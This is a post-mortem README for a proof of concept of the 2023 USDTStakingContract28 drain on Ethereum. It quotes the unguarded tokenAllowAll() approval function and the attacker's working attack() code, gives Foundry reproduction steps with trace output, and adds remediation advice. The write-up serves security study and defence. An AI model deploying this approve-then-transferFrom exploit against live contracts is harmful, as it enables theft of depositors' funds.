



# USDTStakingContract28 Exploit — Permissionless `tokenAllowAll()` Self-Approval Drain

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that
> do not all compile together, so this one was extracted standalone).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [USDTStakingContract28.sol](sources/USDTStakingContract28_800cfD/USDTStakingContract28.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$20,999 — **20,999.916289 USDT** drained (the staking contract's entire USDT balance) |
| **Vulnerable contract** | `USDTStakingContract28` — [`0x800cfD4A2ba8CE93eA2cc814Fce26c3635169017`](https://etherscan.io/address/0x800cfD4A2ba8CE93eA2cc814Fce26c3635169017#code) |
| **Victim asset / holder** | USDT ([`0xdAC17F958D2ee523a2206206994597C13D831ec7`](https://etherscan.io/address/0xdAC17F958D2ee523a2206206994597C13D831ec7)) held by the staking contract |
| **Attacker EOA** | [`0x000000915f1b10b0ef5c4efe696ab65f13f36e74`](https://etherscan.io/address/0x000000915f1b10b0ef5c4efe696ab65f13f36e74) |
| **Attacker contract** | [`0xb754ebdba9b009113b4cf445a7cb0fc9227648ad`](https://etherscan.io/address/0xb754ebdba9b009113b4cf445a7cb0fc9227648ad) |
| **Attack tx** | [`0xfc872bf5ca8f04b18b82041ec563e4abf2e31e1fc27d1ea5dee39bc8a79d2d06`](https://app.blocksec.com/explorer/tx/eth/0xfc872bf5ca8f04b18b82041ec563e4abf2e31e1fc27d1ea5dee39bc8a79d2d06) |
| **Chain / block / date** | Ethereum mainnet / fork at 17,696,562 / ~July 15, 2023 |
| **Compiler** | Source pragma `>=0.7.6`; PoC built with Solc 0.8.34 |
| **Bug class** | Missing access control — a permissionless function that makes the contract approve an arbitrary spender over its own funds |
| **Reference** | [@DecurityHQ thread](https://x.com/DecurityHQ/status/1680117291013267456) |

---

## TL;DR

`USDTStakingContract28` is a USDT staking/yield contract that holds users' deposited USDT. It exposes
a **`public`** helper, `tokenAllowAll(address asset, address allowee)`
([USDTStakingContract28.sol](sources/USDTStakingContract28_800cfD/USDTStakingContract28.sol)),
that lets **anyone** make the contract grant a `type(uint256).max` ERC20 allowance, *for any token,
to any address the caller chooses*. There is no `onlyOwner`, no caller check, no restriction on the
`allowee` argument.

The attacker simply:

1. Calls `Stake.tokenAllowAll(USDT, attackerContract)` — the staking contract approves the attacker
   contract for an infinite USDT allowance over its own balance.
2. Calls `USDT.transferFrom(Stake, beneficiary, Stake.balanceOf())` — pulling the **entire** USDT
   balance of the staking contract out, using the allowance it just granted itself.

In the reproduced trace the contract held **20,999.916289 USDT**, and 100% of it left in one
transaction. There is no flash loan, no price manipulation, no math trick — it is a pure missing-
access-control bug. Net profit ≈ **20,999.92 USDT**.

---

## Background — what `USDTStakingContract28` does

The contract ([source](sources/USDTStakingContract28_800cfD/USDTStakingContract28.sol)) is a fixed-
term USDT staking product:

- **`deposit(amount, lockupPeriod, referral)`** — users `safeTransferFrom` USDT into the contract and
  pick a 7/14/30/60/90-day lockup, each with a hard-coded interest rate. The contract custodies the
  pooled USDT.
- **`withdraw(depositIndex)`** — after the lockup expires, the user pulls their principal back.
- **`claimInterestForDeposit(lockupPeriod)`** — pays accrued interest, again out of the pooled USDT.
- **`transferAllFunds()`** — an **`onlyOwner`** sweep of the whole USDT balance to `_owner`.

So the contract is a custodian: it sits on a pool of user USDT and is *supposed* to release it only
via `withdraw`/`claimInterest` (to the rightful staker) or `transferAllFunds` (to the owner). Every
one of those legitimate paths either checks `msg.sender` ownership of a deposit or is `onlyOwner`.

Buried among them is one helper that breaks the entire custody model:

```solidity
function tokenAllowAll(address asset, address allowee) public {
    IERC20 token = IERC20(asset);

    if (token.allowance(address(this), allowee) != uint256(-1)) {
        token.safeApprove(allowee, uint256(-1));
    }
}
```

It is `public`, takes both the **token** and the **spender** as caller-controlled arguments, and
makes the contract `approve` that spender for `uint256(-1)` (max allowance) on that token — *with no
guard whatsoever*.

---

## The vulnerable code

[`tokenAllowAll`, USDTStakingContract28.sol](sources/USDTStakingContract28_800cfD/USDTStakingContract28.sol):

```solidity
function tokenAllowAll(address asset, address allowee) public {     // ⚠️ no access control
    IERC20 token = IERC20(asset);

    if (token.allowance(address(this), allowee) != uint256(-1)) {
        token.safeApprove(allowee, uint256(-1));                    // ⚠️ contract approves attacker
    }
}
```

Contrast with every other state-touching path in the same file, which is correctly guarded:

```solidity
modifier onlyOwner {
    require(msg.sender == _owner, "Not the contract owner.");
    _;
}

function transferAllFunds() external onlyOwner {                    // ✓ guarded sweep
    uint256 contractBalance = _token.balanceOf(address(this));
    require(contractBalance > 0, "No funds to transfer.");
    _token.safeTransfer(_owner, contractBalance);
}
```

`transferAllFunds()` is the *intended* "move all the money" function and it is `onlyOwner`.
`tokenAllowAll()` is an *unintended* "let someone else move all the money" function and it is wide
open. The two together make the access control on `transferAllFunds()` completely moot — anyone can
reach the same outcome via the unguarded approval helper.

> **Note on `uint256(-1)`:** the source pragma is `>=0.7.6`, and `uint256(-1)` (== `type(uint256).max`,
> `0xffff…ffff`) is the idiom used for "infinite allowance" in Solidity <0.8. It compiles because the
> contract was deployed under a 0.7.x compiler where wrapping casts of negative literals were allowed.

---

## Root cause — why it was possible

A single design defect, with no compounding factors:

> **`tokenAllowAll()` lets an arbitrary caller direct the contract to approve an arbitrary spender for
> an unlimited allowance over the contract's own token balance.** Once that allowance exists, the
> spender drains the balance with a normal `transferFrom`.

Concretely:

1. **No access control.** The function is `public` with no `onlyOwner`/role/`msg.sender` check.
   Anyone can call it.
2. **Both the token and the spender are caller-controlled.** The attacker passes `asset = USDT`
   (the asset the contract actually holds) and `allowee = <their own contract>`.
3. **The approval is for `uint256(-1)` — unlimited.** A single call authorizes the attacker to move
   the contract's *entire* USDT balance, now and in the future.
4. **Approving the contract's own funds is a value-leaking primitive.** ERC20 `approve` grants spend
   rights over the *approver's* balance. Here the approver is the custodian holding everyone's USDT,
   so the function hands the keys to the vault to whoever asks.

The `if (allowance != uint256(-1))` guard does nothing for security — it only skips a redundant
approve if max allowance is somehow already set; it never restricts *who* gets approved.

The likely intent was an internal convenience (e.g., to let a sister contract or router pull funds),
but it was shipped `public` with attacker-controlled arguments. There is no legitimate reason a
USDT-custody contract should ever approve an externally-specified address over its own holdings.

---

## Preconditions

- The staking contract holds a non-zero USDT balance (at the fork block: **20,999.916289 USDT** of
  pooled user deposits).
- `tokenAllowAll()` is `public` and callable by anyone — true unconditionally.

That's it. No timing window, no flash loan, no oracle, no special role. Any address can execute the
full drain in one transaction.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures below are taken directly from the `[PASS]` trace in
[output.txt](output.txt) (lines 1596–1647). USDT has **6 decimals**, so
`20999916289` raw units = **20,999.916289 USDT**.

In the PoC, the test contract `ContractTest`
([test/USDTStakingContract28_exp.sol:23](test/USDTStakingContract28_exp.sol#L23)) deploys a helper
`Money` ([:45](test/USDTStakingContract28_exp.sol#L45)) and calls `money.attack()`. Because `attack()`
records `owner = msg.sender` in its constructor, the drained USDT is sent to `ContractTest` (the
beneficiary). On-chain the equivalent roles were played by the attacker EOA and attacker contract
listed in the Key info table.

| # | Step | Call (from trace) | Result |
|---|------|-------------------|--------|
| 0 | **Baseline** | `USDT.balanceOf(ContractTest)` | `0` USDT — attacker starts empty ([:1609](output.txt#L1609)) |
| 1 | **Deploy helper** | `new Money()` | attacker contract `Money` deployed at `0x5615…b72f` ([:1612](output.txt#L1612)) |
| 2 | **Self-approval** | `Stake.tokenAllowAll(USDT, Money)` → `USDT.approve(Money, type(uint256).max)` | `Approval(owner=Stake, spender=Money, value=1.157e77)` — contract approves attacker for **infinite** USDT ([:1620–1626](output.txt#L1620-L1626)) |
| 3 | **Read target balance** | `USDT.balanceOf(Stake)` | `20999916289` = **20,999.916289 USDT** ([:1631–1632](output.txt#L1631-L1632)) |
| 4 | **Drain** | `USDT.transferFrom(Stake, ContractTest, 20999916289)` | `Transfer(from=Stake, to=ContractTest, value=20999916289)` — entire balance pulled ([:1633–1634](output.txt#L1633-L1634)) |
| 5 | **Confirm** | `USDT.balanceOf(ContractTest)` | `20999916289` = **20,999.916289 USDT** in attacker's hands ([:1640–1641](output.txt#L1640-L1641)) |

The drain amount in step 4 is computed live as `USDT.balanceOf(address(Stake))`
([test/USDTStakingContract28_exp.sol:59](test/USDTStakingContract28_exp.sol#L59)), so the attacker
always takes exactly 100% of whatever the contract currently holds.

### How `attack()` maps onto the trace

```solidity
function attack() public {
    Stake.tokenAllowAll(address(USDT), address(this));   // step 2: Stake approves this contract (infinite)
    address(USDT).call(                                  // step 4: pull the whole balance
        abi.encodeWithSelector(
            bytes4(0x23b872dd),                          // transferFrom(address,address,uint256)
            address(Stake),                              // from   = victim staking contract
            address(msg.sender),                         // to     = beneficiary (ContractTest)
            USDT.balanceOf(address(Stake))               // amount = entire contract balance
        )
    );
}
```

`0x23b872dd` is the selector for `transferFrom(address,address,uint256)`. The raw `.call` is used
because USDT's `transferFrom` does not return a bool, so a typed `IERC20.transferFrom` call would
revert on the return-data check — a USDT quirk, not part of the bug.

### Profit accounting (USDT)

| Direction | Amount |
|---|---:|
| Spent by attacker | 0 (just gas) |
| Received — drained from staking contract | 20,999.916289 |
| **Net profit** | **+20,999.916289 USDT** (≈ $20,999) |

The attacker injects no capital. The profit is exactly the staking contract's full USDT balance at
the fork block — the pooled deposits of every staker.

---

## Diagrams

### Sequence of the attack



### Logical flow of the flaw



### Why the access-control gap is fatal: intended vs. actual authority



---

## Remediation

1. **Gate `tokenAllowAll()` with access control.** At minimum add the existing `onlyOwner` modifier so
   only the trusted owner can ever set allowances on the contract's behalf:
   ```solidity
   function tokenAllowAll(address asset, address allowee) public onlyOwner { ... }
   ```
2. **Better: remove the function entirely.** A USDT-custody contract has no legitimate reason to grant
   an externally-specified address an allowance over its own holdings. If an internal component needs
   to pull funds, hard-code that single trusted spender rather than accepting it as an argument.
3. **Never expose `approve`-of-own-funds with caller-controlled parameters.** Any function that calls
   `approve`/`safeApprove`/`increaseAllowance` on the contract's own balance must restrict both the
   caller (access control) and the spender (a fixed, trusted address — not a function argument).
4. **Don't grant unlimited (`type(uint256).max`) allowances.** Even for a legitimate trusted spender,
   approve only the exact amount needed for the operation, then reset to zero, to bound the blast
   radius if that spender is ever compromised.
5. **Audit for the "shadow sweep" pattern.** Whenever a contract has a guarded "move all funds" path
   (`transferAllFunds` here), check that no *other* function can reach the same effect unguarded — an
   open approval helper silently nullifies the guard on the intended sweep.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has unrelated
PoCs that fail to compile together under `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2023-07-USDTStakingContract28_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required — the test forks at block **17,696,562**
  via `cheats.createSelectFork("mainnet", 17_696_562)`
  ([test/USDTStakingContract28_exp.sol:30](test/USDTStakingContract28_exp.sol#L30)). Most pruned
  public RPCs will fail to serve historical state at that block.
- Result: `[PASS] testExploit()` with the attacker's USDT balance rising from `0` to
  `20999.916289`.

Expected tail:

```
Ran 1 test for test/USDTStakingContract28_exp.sol:ContractTest
[PASS] testExploit() (gas: 465417)
Logs:
  [Begin] Attacker USDT balance before exploit: 0.000000
  [End] Attacker USDT balance after exploit: 20999.916289

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.20s (3.64s CPU time)
```

---

*Reference: @DecurityHQ — https://x.com/DecurityHQ/status/1680117291013267456 (USDTStakingContract28, Ethereum, ~$20,999).*
